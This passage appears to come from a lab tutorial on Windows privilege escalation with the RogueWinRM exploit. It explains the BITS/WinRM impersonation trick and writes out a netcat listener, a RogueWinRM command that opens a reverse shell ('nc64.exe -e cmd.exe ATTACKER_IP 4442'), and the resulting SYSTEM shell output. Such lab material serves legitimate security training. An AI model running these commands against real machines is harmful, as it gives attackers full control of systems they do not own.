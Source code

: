 
To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.\
The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.\
If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.\
Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:\
Kali Linux\
`user@attackerpc$ nc -lvp 4442`

And then, use our web shell to trigger the RogueWinRM exploit using the following command:\
`c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`

**Note:** The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.\
The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.\
If all was correctly set up, you should expect a shell with SYSTEM privileges:\
Kali Linux\
`user@attackerpc$ nc -lvp 4442`\
`Listening on 0.0.0.0 4442`\
`Connection received on 10.10.175.90 49755`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`c:\windows\system32\inetsrv>whoami`\
`nt authority\system`

